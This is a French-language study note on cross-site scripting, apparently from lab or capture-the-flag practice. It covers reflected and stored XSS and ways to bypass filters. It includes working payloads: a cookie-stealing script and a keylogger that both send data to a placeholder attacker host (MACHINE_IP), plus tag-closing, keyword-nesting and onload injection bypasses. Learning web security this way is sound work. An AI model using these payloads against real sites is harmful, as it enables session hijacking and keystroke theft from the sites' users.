 Les failles XSS sont des **failles** qui se passe **côté client**, elles consistent à éxécuter des **scripts javascript** sur la page d'une victime.

## __Payload__

Télécharger l'extension [Hack tool](https://github.com/LasCC/Hack-Tools) pour disposer de plusieurs payload à utiliser facilement.

### Proof Of Concept

```html
<script>alert("XSS");</script>
```

Ce code affichera "XSS" à l'écran si une faille XSS existe.

### Session Stealing

```html
<script>fetch('MACHINE_IP?cookie=' + btoa(document.cookie));</script>
```

Ce code enverra les cookies de la victime à l'adresse de la machine.

### Key Logger

```html
<script>document.onkeypress=function(e){fetch('http://MACHINE_IP/log?key='+btoa(e.key));}</script>
```

Ce code enverra, à chaque fois que la victime appuyera sur une touche, la valeur de la touche à l'adresse de la machine.


## __Reflected XSS__

Une reflected XSS est présente lorsque la page affiche une valeur passé en *paramètre dans l'URL*.
Example :

![[reflectedXss1.png]]

En remplaçant la valeur de *error* par un script, on peut obtenir ceci :

![[reflectedXss2.png]]

Voici un schéma qui illustre ce qui se passera quand nous enverrons ce lien à une victime :

![[reflectedXss3.png]]


## __Stored XSS__

Lorsqu'un script XSS est *stocké dans une base de donnée* on appelle cela une Stored XSS. Cela peut se produire lors de la création d'un compte, ou d'un poste sur un forum par example.
Cela aura pour action que lorsqu'un client accedera à cette page, cela chargera le script XSS et l'executera.


## __Perfecting the Payload__

### 1er cas

![[perfectingPayload1.1.png]]

![[perfectingPayload1.2.png]]

Dans ce scénario on peut bypass la balise \<**input**\> en écrivant:

```html
"><script>alert('XSS');</script>
```
Avec *">* on va **fermer** la balise \<**input**\> avant d'écrire notre script.

### 2e cas

Parfois le rendu de notre payload peut ressembler à ca :

![[perfectingPayload2.png]]

Le problème est dû au fait que le serveur à retiré le mot *script*, pour bypass cela il suffit d'écrire le mot clé autour du mot supprimé.

```html
<sscriptcript>alert("XSS");</sscriptcript>
```

Une fois le texte enlevé par le filtre le code ressemblera à ca :

```html
<script>alert("XSS");</script>
```

### 3e cas

Dans le cas ou nous voulions insérer un **payload à la place de l'url d'une image**, on pourrai se retrouver dans cette situation :

![[perfectingPayload3.1.png]]

Dans ce cas le code de bypass ressemblerai à ça :

```html
/images/cat.jpg" onload="alert('XSS');
```

![[perfectingPayload3.2.png]]
